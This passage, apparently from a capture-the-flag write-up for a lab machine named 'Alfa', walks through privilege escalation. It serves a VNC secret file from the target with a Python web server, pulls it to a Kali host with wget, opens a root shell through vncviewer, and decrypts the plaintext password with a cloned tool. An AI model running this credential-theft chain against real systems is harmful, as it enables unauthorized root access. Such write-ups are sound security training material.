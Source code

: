 We start a web server with python on target machine.

```console
thomas@Alfa:~$ python3 -m http.server
```

We download it to the attacking machine with wget.

```console
root@kali:~$ wget 192.168.179.167:8000/.remote_secret
```

## Privile Escalation
### Access via VNC

We connect to VNC using the **.remote_secret** file as password, and we have access to a root shell.

```console
root@kali:~$ vncviewer -passwd .remote_secret 127.0.0.1:4444
```

![](/assets/images/alfa/screenshot-4.png)

To know the password in plain text we can use VNC password decrypter, for this we download the following repository, compile it and execute it, as shown below:

```console
root@kali:~$ git clone https://github.com/jeroennijhof/vncpwd
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Receiving objects: 100% (28/28), 22.15 KiB | 9.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
root@kali:~$ cd vncpwd 
root@kali:~/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
root@kali:~/vncpwd$ ./vncpwd ../.remote_secret 
Password: k!LL3rSs
```
